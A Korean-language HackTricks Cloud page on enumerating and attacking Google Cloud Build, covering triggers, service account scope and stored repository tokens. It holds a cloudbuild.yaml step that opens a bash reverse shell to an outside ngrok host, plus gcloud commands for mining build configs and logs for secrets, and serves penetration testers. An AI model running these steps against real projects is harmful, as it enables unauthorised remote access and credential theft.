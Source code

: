 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 처음부터 전문가까지 배우세요!</strong></summary>

HackTricks를 지원하는 다른 방법:

- **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
- **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 기본 정보

Google Cloud Build는 **소프트웨어 빌드 및 릴리스 프로세스를 자동화**하는 관리형 CI/CD 플랫폼으로, **소스 코드 저장소와 통합**되며 다양한 프로그래밍 언어를 지원합니다. 개발자들은 **코드를 자동으로 빌드, 테스트 및 배포**할 수 있으며 빌드 단계와 워크플로를 사용자 정의할 수 있습니다.

각 Cloud Build 트리거는 **Cloud 저장소와 관련**이 있거나 외부 저장소(Github, Bitbucket 및 Gitlab)와 직접 연결됩니다.

{% hint style="success" %}
여기서 Github/Bitbucket 토큰을 훔칠 수 있는 방법이나 Cloud 저장소에서 훔칠 수 있는 방법을 보지 못했습니다. 왜냐하면 저장소가 다운로드될 때 [https://source.cloud.google.com/](https://source.cloud.google.com/) URL을 통해 액세스되며 Github는 클라이언트에 의해 액세스되지 않기 때문입니다.
{% endhint %}

### 이벤트

Cloud Build는 다음 경우에 트리거될 수 있습니다:

- **브랜치로 푸시**: 브랜치 지정
- **새 태그로 푸시**: 태그 지정
- **풀 리퀘스트**: PR을 받는 브랜치 지정
- **수동 호출**
- **Pub/Sub 메시지**: 토픽 지정
- **웹훅 이벤트**: HTTPS URL을 노출하고 요청은 비밀로 인증되어야 함

### 실행

3가지 옵션이 있습니다:

- 실행할 명령을 지정하는 yaml/json. 일반적으로: `/cloudbuild.yaml`
- 웹 콘솔 및 CLI에서 "인라인"으로 지정할 수 있는 하나
- 가장 일반적인 옵션
- 인증되지 않은 액세스에 관련이 있음
- 빌드할 **Dockerfile**
- 빌드할 **Buildpack**

### SA 권한

**서비스 계정에는 `cloud-platform` 스코프가 있으므로 모든 권한을 사용**할 수 있습니다. **SA가 지정되지 않은 경우**(제출할 때와 같이) **기본 SA** `<proj-number>@cloudbuild.gserviceaccount.com`이 **사용**됩니다.

기본적으로 권한이 부여되지 않지만 쉽게 부여할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 승인

Cloud Build를 구성하여 **빌드 실행에 대한 승인을 요구**할 수 있습니다(기본적으로 비활성화됨).

### 연결 및 저장소

연결은 다음을 통해 생성할 수 있습니다:

- **GitHub:** **Github 토큰을 얻기 위한 OAuth 프롬프트가 표시**되며 이 토큰은 **Secret Manager에 저장**됩니다.
- **GitHub Enterprise:** **GithubApp**을 설치하라는 요청이 표시됩니다. GitHub Enterprise 호스트에서 **인증 토큰**이 생성되어 이 프로젝트에 **Secret Manager** 비밀로 저장됩니다.
- **GitLab / Enterprise:** **API 액세스 토큰 및 Read API 액세스 토큰**을 제공해야 하며 이는 **Secret Manager**에 저장됩니다.

연결이 생성되면 Github 계정이 액세스할 수 있는 저장소를 **링크**할 수 있습니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
이 방법으로 연결된 저장소는 **2세대를 사용하는 트리거에서만 사용 가능**합니다.
{% endhint %}

### 저장소 연결

이는 **`연결`**과는 다릅니다. 이는 **Github 또는 Bitbucket** 저장소에 액세스하는 **다양한** 방법을 제공하지만 **연결 객체를 생성하지 않고 저장소 객체(1세대)를 생성**합니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 저장

가끔 Cloud Build는 **트리거용 파일을 저장할 새로운 저장소를 생성**할 수 있습니다. 예를 들어 GCP가 제공하는 예제에서 발생합니다.
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### 쉘 획득
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
클라우드 빌드 내에서 gcloud를 설치합니다:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### 열거

**빌드 구성 및 로그에서 민감한 정보를 찾을 수 있습니다**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 권한 상승

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 인증되지 않은 액세스

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 사후 공격

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드하려면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
